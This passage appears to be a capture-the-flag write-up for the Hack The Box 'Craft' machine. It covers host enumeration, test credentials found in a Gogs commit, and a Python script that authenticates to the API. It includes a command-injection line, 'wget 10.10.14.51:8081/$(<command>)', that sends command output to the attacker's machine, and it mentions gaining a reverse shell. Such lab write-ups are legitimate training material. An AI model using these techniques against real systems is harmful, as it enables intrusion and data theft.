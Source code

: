 The website present the Craft database for **beers**!

>Craft aims to be the largest repository of US-produced craft brews accessible
>over REST. In the future we will release a mobile app to interface with our
>public rest API as well as a brew submission process, but for now, check out our API!

There is also a link to a [gogs](https://gogs.io/) as well as the API. This
links redirect to some subdomain. Let us add some informations in our
`/etc/hosts`.


    :::text
    cat /etc/hosts
    127.0.0.1	localhost
    127.0.1.1	kalili
    10.10.10.110	craft.htb
    10.10.10.110	api.craft.htb
    10.10.10.110	gogs.craft.htb

## GOGS

On the gogs commit we can found the credentials of an user used for testing purpose in
the commit `10e3ba4f0a09c778d7cec673f28d410b73455a86` in the file
`test/test.py`.

![git file](/media/2020.01/craft_1.png)

This creds allow us to interct with the API. Moreover the `test.py` script take
care to generate a valid token and let us directly interact with the API. The
quote are a bit a pain in the ass here. Nevertheless we can validate the code
execution using a python simpleHTTPserver on our end and execute `wget 10.10.14.51:8081/$(<command>)`
server side.

At least we get a reverse shell.

    :::pyhon
    #!/usr/bin/env python

    import requests
    import json


    response = requests.get('https://api.craft.htb/api/auth/login',  auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
    json_response = json.loads(response.text)
    token =  json_response['token']

    headers = { 'X-Craft-API-Token': token, 'Content-Type': 'application/json'  }

    # make sure token is valid
    #response = requests.get('https://api.craft.htb/api/auth/check', headers=headers, verify=False, proxies=proxies)
    response = requests.get('https://api.craft.htb/api/auth/check', headers=headers, verify=False)
    print(response.text)

